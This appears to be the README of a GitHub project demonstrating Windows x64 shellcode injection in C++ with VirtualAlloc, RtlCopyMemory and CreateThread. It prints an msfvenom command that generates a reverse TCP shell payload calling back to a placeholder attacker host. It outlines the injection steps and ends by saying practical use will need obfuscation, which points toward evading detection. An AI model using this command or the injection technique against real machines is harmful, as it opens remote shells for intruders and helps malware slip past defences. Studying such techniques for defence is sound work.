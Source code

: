 # Shellcode Injection - Windows x64

Demonstrating basic shell code injection using Windows API and C++. 

## 💻 Features
- Manual shellcode allocation and execution
- Uses VirtualAlloc, RtlCopyMemory, CreateThread
- Tested on Windows 10 x64

## ⚙️ Shellcode
Shellcode generated using `msfvenom`:

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP LPORT=PORT -f c
````

## 🧠 How it Works
1. Allocate memory with `VirtualAlloc`
2. Copy shellcode to allocated region
3. Run with `CreateThread`

## 🖼️ Screenshots

  ![Injection Demo](screenshot/analysis.png)

## 📁 File Structure

* `main.cpp` — injection code
* `shellcode.h` — contains unsigned char shellcode array

## 📝 Note :

* This is just a basic shell code injection for demonstration purposes and will need appropriate obfuscation when in practical use.
